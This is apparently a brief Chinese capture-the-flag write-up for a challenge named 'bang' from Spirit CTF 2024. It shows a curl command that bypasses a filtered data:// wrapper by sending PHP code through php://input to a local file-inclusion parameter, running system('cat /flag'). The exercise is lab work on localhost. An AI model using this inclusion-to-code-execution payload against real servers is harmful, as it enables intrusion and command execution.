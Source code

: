 # Spirit CTF 2024 题解 - bang
![](<./img/Pasted image 20241026210635.png>)

过滤了`data`伪协议，用`php://input`或者`php://filter`构造内容绕过即可，注意php标签

```shell
curl -s 'localhost:8080?file=php://input' --data-raw 'Plastic chair<?php system("cat /flag");' | grep Spirit
```

![](<./img/Pasted image 20241026210831.png>)

